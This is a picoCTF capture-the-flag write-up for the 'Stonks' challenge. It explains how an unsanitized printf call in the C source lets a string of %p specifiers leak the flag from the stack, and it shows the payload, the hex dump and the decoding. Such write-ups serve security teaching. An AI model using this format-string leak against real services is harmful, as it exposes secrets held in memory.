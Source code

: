 # Stonks

## Table of Matters

[Solution](#Solution)

[Resources](#Resources)

[Notes](#Notes)

## Details

- **Points:** 20

- **Source:** picoCTF

- **Author:** MADSTACKS

## Description

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! vuln.c `nc mercury.picoctf.net 27912`

### Hint 1

Okay, maybe I'd believe you if you find my API key.

## Solution

- Fetch the file required for the challenge with the `wget` command like so:

```
$ wget https://mercury.picoctf.net/static/17ba7f9351aca192c45833c658742fe5/vuln.c
```

- Connect to the shell with:

```
nc mercury.picoctf.net 27912
```

- After probing the app a bit, I find that it is pretty simple, we have two branches of execution and the first one seems the most interesting to me since it's related to the API key we need to find.

- Tracing the function `buy_stonks(Portfolio *p)`, I notice this interesting block of instructions:

```c
char *user_buf = malloc(300 + 1);
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```

The program is printing an unsanitized a user-input as the format string.

- What would happen if we inputted some format specifiers? I probed the app again by sending the following format specifiers `%c`, `%s`, `%d`, `%p` instead of the API token. Notice anything interesting ? And how can we use the data dump to retrieve the flag?

- Looking again at the beginning of the `buy_stonks(Portfolio *p)` function:

```c
char api_buf[FLAG_BUFFER];
FILE *f = fopen("api","r");
if (!f) {
    printf("Flag file not found. Contact an admin.\n");
    exit(1);
}
fgets(api_buf, FLAG_BUFFER, f);
```

Which indicates that our flag is sitting on the stack. Let's exploit how `printf()` is pulling data from the stack to match each format specifier in the supplied format string !

- Let's input a sequence of `%p` format specifiers like so:

```
What is your API token?
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
```

We get back a sequence of 32-bit HEX values:

```
What is your API token?
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p

Buying stonks with token:
0x95ea4300x804b0000x80489c30xf7f20d800xffffffff0x10x95e81600xf7f2e1100xf7f20dc7(nil)0x95e91800x10x95ea4100x95ea4300x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x326663310x306131300xffc5007d0xf7f5baf80xf7f2e4400x846993000x1(nil)0xf7dbdbe90xf7f2f0c0

Portfolio as of Fri Jan 21 19:51:57 UTC 2022
```

We can spot a string of ASCII bytes among the other data on the stack (Starting at the 15th 32-bit hex value).

- Using a conversion tool like [CyberChef](https://gchq.github.io/CyberChef), we can unhexify the ASCII sequence that we got:

```
0x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x326663310x306131300xffc5007d0xf7f5baf80xf7f2e4400x846993000x1(nil)0xf7dbdbe90xf7f2f0c0
```

We get the following output:

```
ocip{FTC0l_I4_t5m_ll0m_y_y3n2fc10a10ÿÅ.}÷õºø÷òä@.i...}½¾../..
```

- It looks like every 4 characters are inversed (AKA the endians are swapped).

- I added an ingredient to my CyberChef recipe to swap the endianness as shown in the image below:

![Screenshot](screenshot-cyberchef.png)

And there is the flag !

## Resources

- [Format Specifiers in C](https://www.geeksforgeeks.org/format-specifiers-in-c/)

